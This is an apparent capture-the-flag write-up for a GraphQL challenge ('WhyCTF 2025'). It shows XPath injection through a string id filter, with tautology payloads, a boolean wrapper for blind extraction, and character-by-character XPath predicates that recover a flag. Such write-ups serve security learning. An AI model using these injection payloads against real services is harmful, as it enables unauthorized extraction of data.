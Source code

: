 ### Festivals GraphQL (XML/XPath Injection) — (WhyCTF 2025) Write‑up


### Overview
- Endpoint: `https://festivals.ctf.zone/graphql`
- Schema (introspection): `XMLQuery.festival(filter: FestivalFilter)` where `FestivalFilter.id: String`

### Progress
- Using `fuzz.sh`, ids `1..9` return valid entries, confirming predictable dataset.
- Introspection (`introspection.json`) shows `id` is a `String` (not Int), suggesting it may feed an XML/XPath query server‑side.
- Error responses like `Invalid expression` and GraphQL parsing errors during crafted inputs further hint XPath processing downstream.

### Exploit MindSet
1. Baseline query
   ```graphql
   { festival(filter:{id: "1"}) { abbreviation name year } }
   ```
2. Boolean test (single‑quote payload): returns 9 rows instead of 1 → condition evaluated server‑side
   ```graphql
   { festival(filter:{id: "1' or '1'='1"}) { abbreviation name year } }
   ```
3. Controls observed:
   - Single‑quote payloads work: `'1' or '1'='1` and `''='` → many results. 🤔
   - Double‑quote attempts break at GraphQL layer (syntax errors), confirming delimiter mismatch
   - Invalid XPath fragments yield `Invalid expression` (backend XPath parser reached)

### Blind Exfiltration
We can pose boolean XPath predicates inside `id` and infer true/false based on result count (1 vs 9).

- Boolean wrapper used:
  - `id = "1' or (<XPATH_CONDITION>) or '1'='2"`
  - True → 9 results; False → 1 result

Steps automated in `solve.py`:
1. Locate candidate node carrying the flag text, preferring text nodes containing a common prefix:
   ```xpath
   (//text()[contains(., 'flag{')])[1]
   ```
2. Determine length:
   ```xpath
   string-length(string(<NODE>)) > N
   ```
3. Recover characters by equality checks (robust vs. locale/ordering quirks):
   ```xpath
   substring(string(<NODE>), POS, 1) = 'X'
   ```

This yields: `flag{6bb7325ab7e9e15cdfe30c0ccee79216}`

